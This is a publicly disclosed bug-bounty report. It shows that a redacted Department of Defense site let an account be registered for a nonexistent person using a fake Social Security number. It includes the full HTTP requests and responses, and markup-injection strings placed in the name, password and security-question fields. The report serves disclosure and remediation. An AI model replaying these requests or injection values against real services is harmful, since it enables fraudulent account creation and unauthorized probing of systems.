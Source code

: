 # Illegal account registration in ████████

## Report Details
- **Report ID**: 204048
- **URL**: https://hackerone.com/reports/204048
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-07T00:05:29.940Z
- **Disclosed**: 2019-12-02T18:36:31.685Z

## Reporter
- **Username**: akaki
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Can create an account of nonexistent person (John Doe) in ████.

**Description:**
Input the following values on the [Create Account Step1 page](https://███/app/create1).

```
Last Name:              Doe
Date of Birth:          JAN 1 2017
Social Security Number: 123-45-6789
```

Request (Step1):
```
POST /cc/account_creation/step1_submit HTTP/1.1
Host: ████████
 .. snip ..
Connection: close

i_id=0&f_tok=_p9kmWKZfpl6mWSZfpl0mUaZRJlKmUwH~AfsFVoHXgc!&form=%5B%7B%22name%22%3A%22last_name%22%2C%22value%22%3A%22Doe%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22exp_date%22%2C%22value%22%3A%222017-1-1%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Atrue%2C%22customID%22%3A292%2C%22customType%22%3A1%7D%2C%7B%22name%22%3A%22ssan%22%2C%22value%22%3A%22123456789%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Atrue%2C%22customID%22%3A185%2C%22customType%22%3A%22ssn%22%7D%5D
```

Response (Step1):
```
HTTP/1.1 200 OK
Date: Fri, 20 Jan 2017 15:15:14 GMT
 .. snip ..
Content-Length: 50

{"sessionParm":"","status":1,"message":"Success!"}
```

Input appropriate values on the Step2 page.
The following values were set as authentication information.

```
UserID:   John'
Password: "><s>'John123
```

Request (Step2):
```
POST /cc/account_creation/step2_submit HTTP/1.1
Host: ███████
 .. snip ..
Connection: close

i_id=0&f_tok=_p9kmWKZfpl6mWSZfpl0mUyZQJlYmUwH~AfsFVoHXgc!&form=%5B%7B%22name%22%3A%22curr_gr%22%2C%22value%22%3A%22%5C%22%3E'A%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Atrue%2C%22customID%22%3A49%2C%22customType%22%3A8%7D%2C%7B%22name%22%3A%22first_name%22%2C%22value%22%3A%22%5C%22%3E%3Cs%3E'John%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22last_name%22%2C%22value%22%3A%22%5C%22%3E%3Cs%3E'Doe%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22ssan%22%2C%22value%22%3A%22123456789%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3A%22123456789%22%2C%22custom%22%3Atrue%2C%22customID%22%3A185%2C%22customType%22%3A%22ssn%22%7D%2C%7B%22name%22%3A%22exp_date%22%2C%22value%22%3A%222017-1-1%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3A1483250400%2C%22custom%22%3Atrue%2C%22customID%22%3A292%2C%22customType%22%3A1%7D%2C%7B%22name%22%3A%22email%22%2C%22value%22%3A%22pen%40tiara.ocn.ne.jp%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22email_alt1%22%2C%22value%22%3A%22%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Afalse%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22email_alt2%22%2C%22value%22%3A%22%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Afalse%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22login%22%2C%22value%22%3A%22John'%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22password_new%22%2C%22value%22%3A%22%5C%22%3E%3Cs%3E'John123%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22password_verify%22%2C%22value%22%3A%22%5C%22%3E%3Cs%3E'John123%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22custom%22%3Afalse%7D%2C%7B%22name%22%3A%22pin%22%2C%22value%22%3A%2212345678%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Atrue%2C%22customID%22%3A221%2C%22customType%22%3A%22verify%22%7D%2C%7B%22name%22%3A%22security_question%22%2C%22value%22%3A%22%7B%5C%22Who%20was%20your%20favorite%20cartoon%20character%20as%20a%20child%3F%5C%22%20%3A%20%5C%22%5C%22%3E%3Cs%3E'John%5C%22%2C%20%5C%22What%20was%20the%20name%20of%20your%20best%20friend%20as%20a%20child%3F%5C%22%20%3A%20%5C%22%5C%22%3E%3Cs%3E'John%5C%22%2C%20%5C%22What%20was%20the%20name%20of%20your%20favorite%20teacher%20in%20high%20school%3F%5C%22%20%3A%20%5C%22%5C%22%3E%3Cs%3E'John%5C%22%2C%20%5C%22What%20was%20your%20first%20job%3F%5C%22%20%3A%20%5C%22%5C%22%3E%3Cs%3E'John%5C%22%2C%20%5C%22What%20was%20your%20favorite%20sport%20as%20a%20teenager%3F%5C%22%20%3A%20%5C%22%5C%22%3E%3Cs%3E'John%5C%22%7D%22%2C%22table%22%3A%22contacts%22%2C%22required%22%3Atrue%2C%22prev%22%3Anull%2C%22custom%22%3Atrue%2C%22customID%22%3A294%2C%22customType%22%3A6%7D%5D
```

Response (Step2):
```
HTTP/1.1 200 OK
Date: Fri, 20 Jan 2017 15:24:19 GMT
 .. snip ..
Content-Length: 50

{"sessionParm":"","message":"Success!","status":1}
```

For response message, it is thought that the creation of the account is successful.


## Impact
Potential for unauthorized use of ███'s services by anonymous users.

## Suggested Remediation Actions
Accurately associate Social Security Number and personal information, and prohibit registration with nonexistent person.

**Note:**
I was locked because I failed to log in to this account many times.
████████

However, from the [Reset Password page](https://███/app/forgot), I confirm that the account is registered. In addition, I received a mail from ████████ to the registered mail address.
████

## Attachments
No attachments
